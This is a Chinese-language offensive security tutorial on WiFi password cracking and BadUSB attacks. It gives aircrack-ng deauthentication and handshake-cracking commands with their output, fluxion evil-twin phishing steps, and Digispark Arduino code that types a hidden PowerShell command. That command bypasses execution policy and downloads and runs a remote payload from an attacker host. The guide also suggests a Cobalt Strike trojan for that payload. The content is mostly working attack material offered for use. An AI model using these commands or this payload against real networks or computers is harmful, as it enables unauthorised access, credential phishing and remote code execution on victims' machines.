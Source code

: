 # wifi渗透

## Wifi密码爆破

[利用在线密码](https://www.bugku.com/mima/)生成1.txt字典，使用kail中自带的Aircrack-ng，首先查看无线网卡的信息

```bash
root@kali:~# iwconfig 
lo        no wireless extensions.
eth0      no wireless extensions.
wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
```

kill掉可能影响的进程`airmon-ng check kill`。启用无线网卡的监听模式`airmon-ng start wlan0`。启用成功后，`Ifconfig`可以看到无线网卡的信息。通过`airodump-ng wlan0mon`监听附近的所有wifi通信，确定目标后可以退出。通过后台持续运行`airodump-ng --bssid F6:4C:A1:B5:C6:81 -c 10 -w test wlan0mon`抓取指定ap的无线通信，这里-c指定对应通道。然后攻击指定的无线客户端及路由器，以获取握手包

```bash
root@kali:~# aireplay-ng -0 2 -a F6:4C:A1:B5:C6:81 -c 20:64:CB:0E:E3:ED wlan0mon
14:52:26  Waiting for beacon frame (BSSID: F6:4C:A1:B5:C6:81) on channel 11
14:52:26  Sending 64 directed DeAuth (code 7). STMAC: [20:64:CB:0E:E3:ED] [ 1|62 ACKs]
14:52:27  Sending 64 directed DeAuth (code 7). STMAC: [20:64:CB:0E:E3:ED] [ 0|65 ACKs]
```

查看后台运行的监听进程，抓到数据包为成功

```bash
root@kali:~# airodump-ng --bssid F6:4C:A1:B5:C6:81 -c 11 -w test wlan0mon
14:50:39  Created capture file "test-01.cap".
 CH 11 ][ Elapsed: 12 mins ][ 2021-10-26 15:03 ][ WPA handshake: F6:4C:A1:B5:C6:81 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 F6:4C:A1:B5:C6:81  -25  27     6548       59    0  11  360   WPA2 CCMP   PSK  DESKTOP-ATOB8DH 5656                                      
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 F6:4C:A1:B5:C6:81  20:64:CB:0E:E3:ED   -1    1e- 0      0       51    
```

通过碰撞破解握手包的密码，获取wifi密码

```bash
root@kali:~# aircrack-ng -w 1.txt test-01.cap 
Reading packets, please wait...
Opening test-01.cap
Read 3938 packets.
   #  BSSID              ESSID                     Encryption
   1  F6:4C:A1:B5:C6:81  DESKTOP-ATOB8DH 5656      WPA (1 handshake)
Choosing first network as target.
Reading packets, please wait...
Opening test-01.cap
Read 3938 packets.
1 potential targets
                               Aircrack-ng 1.6 
      [00:00:00] 1/1 keys tested (25.69 k/s) 
      Time left: --
                           KEY FOUND! [ 12345678 ]
      Master Key     : 53 CB 0A A3 F1 FD 34 35 78 A6 C9 FF 24 FC E6 77 
                       02 21 79 8F 36 A9 31 47 7E 33 E6 A8 F0 34 E5 3F 
      Transient Key  : C7 D1 DD 3D D2 CB 16 34 55 C7 CC 92 6C F8 0C 24 
                       C0 27 A2 2C BA 55 8E 44 A9 5D 05 B9 23 1A 04 0D 
                       BF DD 92 F1 EE 03 8A A3 3E D4 21 90 43 E7 8F 53 
                       01 B4 A6 58 D0 49 D1 6B 0B 8E 0B CD 32 EE C8 EA 
      EAPOL HMAC     : 77 E9 ED 54 77 B7 65 99 D5 B2 01 8B 3F 88 58 66 
```

## WIFI钓鱼

使用[fluxion工具](https://github.com/FluxionNetwork/fluxion)，首先`iwconfig `查看无线网卡的信息，然后`fluxion -i`安装依赖

1. 首先获取目标握手包

   ```
   [2] Handshake Snooper 检索WPA/WPA2加密散列。
   [3] 扫描所有信道  (2.4GHz & 5Ghz)
   [2] 跳过
   [2] aireplay-ng 解除认证方式 (侵略性)
   [2] cowpatty 验证 (推荐用这个)
   [1] 每30秒钟 (推荐).
   [2] Synchronously (推荐).
   ```

2. 之后泛洪攻击目标ap，使其停止无线服务

   ```
   [1] 选择启动攻击方式
   [1] 专属门户 创建一个“邪恶的双胞胎”接入点
   [2] 跳过
   [2] wlan0    [*] Ralink Technology, Corp. RT2870/RT3070      
   [2] aireplay
   [1] 流氓 AP - hostapd (推荐)
   [1] hash - cowpatty
   [1] 使用抓取到的hash文件
   [2] cowpatty 验证 (推荐用这个)
   ```

3. 通过钓鱼框架，伪造目标网络信息，诱导用户连接

   ```
   [1] 创建SSL证书
   [2] 仿真
   [03] 通用认证网页                              Chinese 
   ```

4. 用户连接钓鱼wifi后，将捕获的用户输入的握手包，与之前认证的握手包进行校验；如果校验成功，则停止攻击目标ap ，否则继续攻击，直至成功破解

## 无线路由器漏洞利用

[RouterSploit](https://github.com/threat9/routersploit)它包含了27+个品牌的上百种漏洞利用模块，涉及的路由器、摄像头等设备有几百种。可自动设别设备型号自动扫描可利用的漏洞。

# badusb

## 工具准备

digispark开发板。淘宝链接：https://m.tb.cn/h.fe2pxMT?sm=0b41c0

## 安装 arduino 的 IDE 

https://downloads.arduino.cc/arduino-1.8.13-windows.exe

## 驱动安装

如果是 64 位操作系统请选择 DPinst 64 .exe ，否则请选择 DPinst.exe

## 配置环境

查看链接完成配置，烧录代码。https://www.cnblogs.com/qianxiao996/p/13574566.html

```c
#include "DigiKeyboard.h"
void setup() {
  // put your setup code here, to run once:
  DigiKeyboard.delay(2000);//为等待2秒
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//发送win+R
  DigiKeyboard.delay(800);
  //DigiKeyboard.println("cmd /T:01 /K mode CON: COLS=16 LINES=1");//将cmd窗口最小化保证隐蔽性
  DigiKeyboard.delay(2000);
  DigiKeyboard.println(F("powershell -WindowStyle Hidden -NoLogo -executionpolicy bypass IEX(New-Object Net.WebClient).DownloadString('http://ip:80/a');"));//要执行的payload
  //DigiKeyboard.println("echo set-alias -name rookie -value Invoke-Expression;rookie(new-object net.webclient).downloadstring('http://ip:80/a') | powershell -");
  DigiKeyboard.delay(10000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  //DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);//执行完成后alt+F4关闭窗口
  DigiKeyboard.delay(10000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//发送win+R
}

void loop() {
  // put your main code here, to run repeatedly:
}
```

功能是下载打开windwos+r 运行窗口，输入命令执行。点击上传，在60s之内插入你的badusb。

![img](https://img-blog.csdnimg.cn/20200703160617384.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2Mzc0ODk2,size_16,color_FFFFFF,t_70)

## CobaltStrike生成木马

attacks->webdrive-by->scrpited web deliver->设置监听->生成命令复制到代码中

badusb其他制作方式https://mrxn.net/jswz/diy-myself-badusb.html




